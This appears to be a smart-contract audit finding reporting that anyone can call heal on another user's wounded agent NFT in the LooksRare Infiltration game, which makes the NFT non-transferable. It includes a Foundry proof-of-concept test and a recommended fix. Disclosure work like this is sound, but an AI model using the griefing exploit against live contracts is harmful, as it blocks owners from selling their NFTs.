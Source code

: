 Polite Rose Beaver

medium

# heal - attacker can request heal to stop other users from trading NFTs
## Summary

Only active, wounded agents can be transferred. Since anyone can request heal the wounded agent owned by another user, attacker can prevent user sell(transfer) agent NFT.

## Vulnerability Detail

The `heal` function allows anyone to request to heal the wounded agent that they do not own. Only active or wounded agents can be transferred, not healing, escaped, or dead agents.

```solidity
function transferFrom(address from, address to, uint256 tokenId) public payable override {
    AgentStatus status = agents[agentIndex(tokenId)].status;
@>  if (status > AgentStatus.Wounded) {
        revert InvalidAgentStatus(tokenId, status);
    }
    super.transferFrom(from, to, tokenId);
}
```

 

Users can freely buy and sell agent NFTs on the NFT market. However, if the attacker requests to heal the wounded agent that is selling, the user will not be able to trade agent NFT.

This is the PoC code. Anyone can request to heal the agent, and this agent is no longer transferable.

```solidity
function test_poc_heal_others() public {
    _startGameAndDrawOneRound();

    _drawXRounds(1);
    
    address attacker = address(0xcafebabe);

    (uint256[] memory woundedAgentIds, ) = infiltration.getRoundInfo({roundId: 1});

    assertEq(infiltration.costToHeal(woundedAgentIds), HEAL_BASE_COST * woundedAgentIds.length);

    address agentOwner = _ownerOf(woundedAgentIds[0]);

    looks.mint(attacker, HEAL_BASE_COST);

    // attacker calls heal
    vm.startPrank(attacker);
    _grantLooksApprovals();
    looks.approve(TRANSFER_MANAGER, HEAL_BASE_COST);

    uint256[] memory agentIds = new uint256[](1);
    agentIds[0] = woundedAgentIds[0];

    uint256[] memory costs = new uint256[](1);
    costs[0] = HEAL_BASE_COST;

    expectEmitCheckAll();
    emit HealRequestSubmitted(3, agentIds, costs);

    infiltration.heal(agentIds);
    vm.stopPrank();

    (, uint256[] memory healingAgentIds) = infiltration.getRoundInfo({roundId: 1});
    assertAgentIdsAreHealing(healingAgentIds);

    vm.expectRevert(
        abi.encodePacked(
            IInfiltration.InvalidAgentStatus.selector,
            abi.encode(woundedAgentIds[0], IInfiltration.AgentStatus.Healing)
        )
    );

    vm.prank(agentOwner); // NFT owner fail to sell/transfer NFT
    infiltration.transferFrom(agentOwner, address(0x1234), woundedAgentIds[0]);

}
```

## Impact

## Code Snippet

[https://github.com/sherlock-audit/2023-10-looksrare/blob/86e8a3a6d7880af0dc2ca03bf3eb31bc0a10a552/contracts-infiltration/contracts/Infiltration.sol#L801](https://github.com/sherlock-audit/2023-10-looksrare/blob/86e8a3a6d7880af0dc2ca03bf3eb31bc0a10a552/contracts-infiltration/contracts/Infiltration.sol#L801)

[https://github.com/sherlock-audit/2023-10-looksrare/blob/86e8a3a6d7880af0dc2ca03bf3eb31bc0a10a552/contracts-infiltration/contracts/Infiltration.sol#L925-L928](https://github.com/sherlock-audit/2023-10-looksrare/blob/86e8a3a6d7880af0dc2ca03bf3eb31bc0a10a552/contracts-infiltration/contracts/Infiltration.sol#L925-L928)

## Tool used

Manual Review

## Recommendation

Make sure that only the agent owner can request to heal. If `heal` is called from InfiltrationPeriphery contract, pass `msg.sender` as parameter and check it.